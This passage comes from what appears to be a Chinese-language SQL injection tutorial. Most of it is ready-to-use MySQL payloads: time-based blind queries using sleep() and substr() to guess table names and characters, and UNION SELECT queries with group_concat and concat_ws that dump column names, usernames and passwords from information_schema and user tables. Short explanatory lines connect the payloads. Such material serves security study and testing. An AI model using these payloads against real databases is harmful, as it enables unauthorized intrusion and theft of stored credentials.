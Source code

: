 也可以使用`limit i,1`逐个破解表名，i从0开始；`substr(表名,j,1)`逐个破解数据表名的字符，j从1开始。

```mysql
select * from users where id='1' 
and if(substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1)='a',SLEEP(3),1)
```

+ **爆列**

注意爆列时，where子句中需要将table_schema和table_name都作为条件。

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='数据库名' and table_name='表名'--
```

+ **爆数据**

获得数据库名、表名、列名后，

```mysql
select * from users where id='1' union select 1,group_concat(passwd),3 from 表名
```

```mysql
select * from users where id='1' union select 1,group_concat(0x7e,passwd,0x7e),3 from 表名
```

```mysql
select * from users where id='1' union select 1,concat_ws(0x7e,id,username,passwd),3 from 表名-- 
```



## 4. SQL注入基本类型

### 4.1 盲注

#### 4.1.1 时间盲注

关键函数：sleep()、benchmark()、get_lock()等



**（1）sleep()**

判断注入点

```mysql
select * from users where id='1' and sleep(3)-- 
```

通过时间盲注猜解字符

```mysql
select * from users where id='1' and if(substr(database(),1,1)='a',sleep(3),1)-- 
```

当sleep()被禁用时，还可以尝试通过注入消耗时间和性能的sql语句，达到时间延时的效果。
